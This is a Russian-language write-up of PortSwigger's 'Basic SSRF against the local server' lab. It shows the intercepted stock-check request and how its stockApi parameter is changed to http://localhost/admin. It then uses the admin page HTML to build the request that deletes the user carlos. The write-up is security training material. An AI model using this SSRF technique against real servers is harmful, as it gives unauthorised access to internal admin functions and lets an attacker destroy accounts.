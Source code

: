 ```yaml
---
title: "Basic SSRF against the local server"
date: 2025-07-22
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-localhost"
classes: wide
---
```


Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Нужно получить доступ к интерфейсу админа `http://localhost/admin` и удалить пользователя `carlos`.

```
https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/
```

## Solution

Следуя из задачи, нам нужно найти место на сайте, где используется обращение по `HTTP` на сервер.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/1.png){: height="200" .align-center}

При нажатии на кнопку `Check stock` отправляется `HTTP`-запрос на внешний ресурс, и результат подставляется на место вызова.

```http
POST /product/stock HTTP/2

Host: 0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Cookie: session=EqA7ic9vbBVvFyCUEHLcOxMY8ACPeOyI
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a0400cb04d88ca581104ddf00b90037.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D3
```

Заменим `stockApi` на `http://localhost/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/2.png){: height="200" .align-center}

Мы получили страницу админ панели. Теперь нам нужно узнать, с помощью какого запроса происходит удаление пользователя.

```html
</header>
<section>
	<h1>Users</h1>
	<div>
		<span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
	</div>
    <div>
        <span>carlos - </span>
		<a href="/admin/delete?username=carlos">Delete</a>
	</div>
</section>
```

Из кода страницы понятно, что для удаления пользователя `carlos` нам нужно отправить следующий `HTTP`-запрос: `http://localhost/admin/delete?username=carlos`. Отправим запрос и проверим результат.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_the_local_server/3.png){: height="200" .align-center}